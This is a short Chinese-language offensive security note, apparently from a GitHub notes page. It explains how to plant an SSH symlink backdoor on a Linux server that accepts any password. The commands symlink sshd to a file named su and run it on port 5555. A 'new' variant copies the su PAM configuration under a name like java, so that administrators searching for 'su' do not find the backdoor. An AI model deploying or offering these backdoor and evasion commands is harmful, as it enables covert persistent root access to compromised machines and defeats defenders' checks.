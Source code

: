 ## SSH软链接后门-旧

SSH 软链接后门是一个比较好用的持久化技术，无论是通过root权限下的RCE还是定时任务写shell时都能完美驾驭。这种后门是一种万能登录后门，输入任意密码即可登录。下面是一个典型的SSH软链接后门部署命令。

```shell
ln -sf /usr/sbin/sshd /tmp/su;
/tmp/su -oPort=5555
```

也正是由于这样好用，因此已经被用烂了，运维人员只需要检查开放端口内有没有关键词su即可八九不离十的找到后门。

那么能不能创建出其他SSH软链接后门但是文件名不是su呢。答案是肯定的。

SSH软链接后门的实现原理与Linux的PAM认证相关。具体来说，PAM认证是通过软链接的文件名（如：/tmp/su,/home/su），在/etc/pam.d/目录下寻找对应的PAM配置文件(如：/etc/pam.d/su)。而在sshd服务配置满足”启用PAM认证“且”PAM配置文件中控制标志为sufficient“的前提下，只要pam_rootok模块检测uid为0（root）就会自动放行认证（我们平时以root权限su其他用户时不用输密码就切换完成了,就是这样的原理）。将这两方面特点结合起来我们就能构造出其他的软链接后门。

## SSH软链接后门-新

```shell
cp /etc/pam.d/su /etc/pam.d/java
#cp /etc/pam.d/su postgres

ln -sf /usr/sbin/sshd /java;
#ln -sf /usr/sbin/sshd /postgres;

/java -oPort=5555
#/postgres -oPort=5555


cp /etc/pam.d/su /etc/pam.d/java
ln -sf /usr/sbin/sshd /java;
/java -oPort=5555
```

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-12_161119.png)


